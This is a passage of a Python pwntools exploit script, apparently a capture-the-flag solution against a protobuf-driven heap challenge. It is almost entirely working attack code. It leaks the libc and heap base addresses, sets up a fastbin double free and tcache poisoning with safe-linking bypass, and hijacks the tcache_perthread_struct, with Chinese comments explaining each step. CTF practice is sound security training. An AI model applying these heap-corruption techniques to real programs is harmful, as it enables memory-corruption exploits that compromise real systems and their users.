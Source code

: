 ```python
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)    

for i in range(9):
    create(i,b'aaaaaaaa')

# leak libc_base
show(0)
p.recvuntil(b'aaaaaaaa')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 0x21ace0
log.success('libc_base : ' + hex(libc_base))

# leak heap_base
delete(0)
show(0)
p.recvuntil(b'Content:')
leak = u64(p.recv(5).ljust(8,b'\x00'))
heap_base = (leak << 12) - 0x2000 
log.success('heap_addr : ' + hex(heap_base))

# fill 0x40 tcache
for i in range(6):
    delete(i+1)

# double free fastbin
delete(7)
delete(8)
delete(7)

# malloc all tcache
for i in range(7):
    create(i,b'a'*8)

environ = libc_base + libc.sym['environ']
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

create(7,p64((heap_base+0xf0)^((heap_base+0x004e40)>>12)))
create(8,b'aaaaaa')
create(8,b'a')

# 将0xf0大小的tcache块(entries指针地址在heap_base+0xf8)的entries改为heap_base+0x10
create(8,p64(0) + p64(heap_base+0x10))

# 解包过程中会申请0xe0的空间存放content，也就是说会申请0xf0大小的chunk，由于我们已经将0xf0大小的chunk的entries指针改为heap_base+0x10
# 所以我们实际上申请到了heap_base位置的chunk，即tcache_perthread_struct
```